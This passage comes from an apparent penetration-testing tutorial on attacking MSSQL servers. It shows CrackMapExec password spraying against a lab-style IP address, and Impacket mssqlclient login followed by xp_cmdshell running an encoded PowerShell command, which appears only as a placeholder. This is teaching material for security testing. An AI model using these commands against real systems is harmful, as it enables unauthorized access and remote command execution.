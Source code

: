 ```bash
# Using CrackMapExec
crackmapexec mssql 10.129.201.57 -u users.txt -p passwords.txt
```

#### Automating Command Execution

```bash
# Using Impacket with command execution
mssqlclient.py -windows-auth DOMAIN/username:password@10.129.201.57 -debug
SQL> EXEC xp_cmdshell 'powershell -e <base64EncodedCommand>'
```

By understanding MSSQL services and their attack vectors, penetration testers can effectively identify vulnerabilities and provide valuable recommendations for securing these critical database systems.
